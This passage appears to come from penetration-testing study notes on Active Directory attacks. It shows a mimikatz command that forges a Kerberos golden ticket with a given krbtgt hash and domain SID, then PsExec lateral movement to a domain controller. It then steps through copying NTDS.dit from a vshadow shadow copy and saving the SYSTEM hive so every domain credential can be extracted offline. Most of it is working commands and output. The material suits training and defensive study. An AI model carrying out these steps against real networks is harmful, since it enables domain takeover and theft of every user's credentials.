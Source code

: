     mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
    ```
3. With the golden ticket injected into memory, we can launch a new command prompt with **misc::cmd** and attempt lateral movement with PsExec.
    ```cmd
    mimikatz # misc::cmd
    Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 012E3A24
    ...
    C:\Users\offsec.corp> psexec.exe \\dc01 cmd.exe
    ```

**Note**: by creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication. If we were to connect using PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked
```cmd
C:\Users\Offsec.corp> psexec.exe \\192.168.1.110 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.1.110:
Access is denied.
```
### Shadow Copies
A [*Shadow Copy*](https://en.wikipedia.org/wiki/Shadow_Copy), also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes.

To manage volume shadow copies, the Microsoft signed binary [*vshadow.exe*](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample) is offered as part of the [Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/).

As domain admins, we have the ability to abuse the vshadow utility to create a Shadow Copy that will allow us to extract the [Active Directory Database **NTDS.dit** database file](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc961761(v=technet.10)?redirectedfrom=MSDN). Once we've obtained a copy of said database, we can extract every user credential offline on our local Kali machine.

To start off, we'll connect as the domain admin user to the domain controller and launch from an elevated prompt the [**vshadow** utility with **-nw** options to disable writers](https://learn.microsoft.com/en-us/windows/win32/vss/shadow-copy-creation-details), which speeds up backup creation and include the **-p** option to store the copy on disk.
```cmd
C:\Tools>vshadow.exe -nw -p  C:
...
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
...
```
Copy the whole (ntds) AD Database from the shadow copy to the **C:** drive root folder by specifying the shadow copy device name and append the full **ntds.dit** path.
```cmd
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```
As a last ingredient, to correctly extract the content of **ntds.dit**, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the **reg** utility and the **save** argument.
```
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```
